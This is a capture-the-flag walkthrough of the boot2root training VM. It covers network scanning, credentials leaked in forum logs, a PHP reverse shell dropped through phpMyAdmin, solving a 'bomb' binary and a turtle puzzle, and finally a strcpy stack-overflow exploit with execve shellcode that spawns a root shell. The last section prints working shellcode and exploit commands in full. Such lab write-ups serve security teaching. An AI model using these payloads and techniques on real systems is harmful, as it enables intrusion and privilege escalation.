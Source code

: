 # boot2root walkthrough

First we need to configure network connection in VBox as "Bridge" or "Virtual network".
Now we can scan VBox network with nmap to find boot2root ips and open ports.

![ip_network](screenshots/ip_network.png)

There is a running web site, so we scan 80 and 443 with dirb to find available directories:


![nmap_result](screenshots/nmap_result.png)


Now we have three attack vectors: /fonts (http) and /phpmyadmin, /webmail, /forum (https).
- fonts directory is not interesting for us
- phpmyadmin request creditnails. We wouldn't be able to brute it((
- webmail is the same as phpmyadmin
- forum is the only available vector which we can try to search for something interesting

On the forum we can find "theme" created by lmezard called "Probleme login?".
It's a log which wecan try to examine. Here we can find string which looks like user credentials:
If we try it to log in on forum we will succeed. Forum login/pass - lmezard:!q\]Ej?*5K5cy*AJ

![forum](screenshots/forum.png)

After that we can try to access "Contact" tab and now have lmezard's E-mail adress. If we try to use it to auth /webmail we will succeed again.
/webmail login/pass:

    laurie@borntosec.net:!q\]Ej?*5K5cy*AJ

In mailbox we have two messages, one of them includes creds for something called "database" which is /phpmyadmin login/pass:

    root/Fg-'kKXBj87E:aJ$

![message](screenshots/message.png)

Now it is time for explotation. From phpmyadmin we are able to execute SQL queries which means that we can send some payload into a file.
First we need find directory where we have access to write files. But we already have found one, look a dirb output again.
Trying several directories and drop php file, inside one of the directories var/www/forum/templates_c we have enougth rights.

![drop](screenshots/drop.png)

Now we need to craete reverse shell, we can generate it in base64 using 'https://www.revshells.com/'.
And we drop full code with PHP method base64_decode in p.php, start nc, open p.php in browser, improve our shell with python.

![reverse_shell](screenshots/reverse_shell.png)

Now we need to explore system. We can look at /home directory, there is dir LOOKATME which contains file password. NICE users login/password is lmezard:G!@M6f4Eatau{sF"

![lmezard's_home_dir](screenshots/lmezard's_home_dir.png)

When we logged as lmezard, we found files in his home directory. 'fun' is tar archive, so it will be little more convvenient, to work with it on local machine.
We just copy 'fun' to /forum/templates_c and use chmod 777 (lol). Now we can download file with wget on local machine.

![fun_download](screenshots/fun_download.png)

Then we find a lot pcap files in dir. To deobfuscate it we use sh script. When job is done we use enfile as C-code, compile it and have password, which needed to be cripted with sha-256. hmmm... use sha256 and ssh login/password laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
NICE

![pcap_handle](screenshots/pcap_handle.png)

Now we fnally can connect to machine via ssh. We have README, which says we must defuse the bomb and 'bomb'-ELF exutable.
We haven't passion to start binaries named bomb so let's look to strings. We can see all 'phases', that we need to defuse bomb.
We had hint in README, so easily go to stage two. Let's find all passwords with hint. I thought...
But it doesnt work for 2nd level. OK, we download radare2, and here we go.

2nd level. 
We have two simple functions. First, we read six numbers from stdin. If numbers count not equal six, we exlode bomb.
Simply run debugger and watch at cmp instruction. At the end we have 1 2 6 24 120 720

![l2_read_six_nums](screenshots/bomb/l2_read_six_nums.png)

3d level.
Func want two numbers and letter. OKAY. It is only begin. We see a lot of jumps fahrer from start. There is switch-case construction.
It depend from first number value. So we try everything from first condition and we're good.
In the HINT our letter is b, so second group of values is ours. 1 b 214. OK

![l3_beginning](screenshots/bomb/l3_beginning.png)
![l3_general](screenshots/bomb/l3_general.png)

4th level.
Owh. We're bad. We have recoursive function here. It will be hard. 
We have internet, so we can install ghydra with 'r2pm --ci r2ghydra'.
OKAY. Now we decompile our phase_4 
Simply decompil function and see pritty easy task. Write python script which copy our function.
It's just fibonacci function and we need to get 55 It is 9th number of sequense and answer 9

![l4_recursive.png](screenshots/bomb/l4_recursive.png)

5th level.
Here we see some tricks with arrays. OKAY. The good solution - copy function in python and after it copy alghoritm.
So we play with script and solve this problem. Answer - opekmq

![l5_decompiled.png](screenshots/bomb/l5_decompiled.png)

6th level.
Here we have REALY coplex function. Sowe need a few hours, debugger and patient. We run and rerun this program. 
In we end we have six numbers. Password - 4 2 6 3 1 5

![l6_complex.png](screenshots/bomb/l6_complex.png)

Now we have all passwords. We remove all whitespases and here we go, next login/password 
And in thor acc we have turtle and README. README doesn't tell anything usefull, so we look at file. It's text with directions of tutle. In Mother Russia we did this things it school. ON PAPER. And now We just write python script.

![turtle.dir](screenshots/turtle.png)

We done with it to. Script works fine and we have some letters. Now we can MD5 them and get next login/pass 

![SLASH_md5](screenshots/SLASH_md5.png)

Given setuid binary exploit_me. Lets disassemble it:

    (gdb) set disassembly-flavor intel
    (gdb) disass main
    Dump of assembler code for function main:
    0x080483f4 <+0>:	push   ebp
    0x080483f5 <+1>:	mov    ebp,esp
    0x080483f7 <+3>:	and    esp,0xfffffff0
    0x080483fa <+6>:	sub    esp,0x90
    0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
    0x08048404 <+16>:	jg     0x804840d <main+25>
    0x08048406 <+18>:	mov    eax,0x1
    0x0804840b <+23>:	jmp    0x8048436 <main+66>
    0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
    0x08048410 <+28>:	add    eax,0x4
    0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
    0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
    0x08048419 <+37>:	lea    eax,[esp+0x10]
    0x0804841d <+41>:	mov    DWORD PTR [esp],eax
    0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
    0x08048425 <+49>:	lea    eax,[esp+0x10]
    0x08048429 <+53>:	mov    DWORD PTR [esp],eax
    0x0804842c <+56>:	call   0x8048310 <puts@plt>
    0x08048431 <+61>:	mov    eax,0x0
    0x08048436 <+66>:	leave
    0x08048437 <+67>:	ret
    End of assembler dump.

There is unprotected strcpy from command line arguments into buffer, we can abuse that by writing shellcode inside env variable and overwrite return eip address to point on this variable address.
We can use this shellcode:

    \x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

Assembly of this shellcode will look like this:

    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x17
    int    0x80
    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x2e
    int    0x80
    xor    eax,eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx,esp
    push   eax
    push   ebx
    mov    ecx,esp
    xor    edx,edx
    mov    al,0xb
    int    0x80

First we need to create shellcode env variable:

    zaz@BornToSecHackMe:~$ export SHELLCODE=$(python -c 'print("\x90"*10+"\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')

Next we need to find offset to eip and SHELLCODE env variable address:

    zaz@BornToSecHackMe:~$ gdb ./exploit_me
    (gdb) b *main+49
    Breakpoint 1 at 0x8048425
    (gdb) run aaaabbbbccccdddd
    Starting program: /home/zaz/exploit_me aaaabbbbccccdddd

    Breakpoint 1, 0x08048425 in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffff6d0:
    eip = 0x8048425 in main; saved eip 0xb7e454d3
    Arglist at 0xbffff6c8, args:
    Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
    Saved registers:
    ebp at 0xbffff6c8, eip at 0xbffff6cc
    (gdb) x/50x $sp
    0xbffff630:	0xbffff640	0xbffff8ac	0x00000001	0xb7ec3c49
    0xbffff640:	0x61616161	0x62626262	0x63636363	0x64646464
    0xbffff650:	0xbffff700	0xb7fdd000	0x00000000	0xb7e5ec73
    0xbffff660:	0x08048241	0x00000000	0x00c30000	0x00000001
    0xbffff670:	0xbffff897	0x0000002f	0xbffff6cc	0xb7fd0ff4
    0xbffff680:	0x08048440	0x080496e8	0x00000002	0x080482dd
    0xbffff690:	0xb7fd13e4	0x00000016	0x080496e8	0x08048461
    0xbffff6a0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff6b0:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
    0xbffff6c0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
    0xbffff6d0:	0x00000002	0xbffff764	0xbffff770	0xb7fdc858
    0xbffff6e0:	0x00000000	0xbffff71c	0xbffff770	0x00000000
    0xbffff6f0:	0x0804820c	0xb7fd0ff4
    (gdb) x/20s *((char**)environ)
    0xbffff8bd:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\061ۉذ\027̀1ۉذ.̀1\300Ph//shh/bin\211\343PS\211\341\061Ұ\v̀"

Shellcode address is 0xbffff8bd, offset from buffer to old eip is 140 bytes.
Now we can perform our exploit:

    zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a"*140 + "\xbd\xf8\xff\xbf")')
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
    # whoami
    root
    #



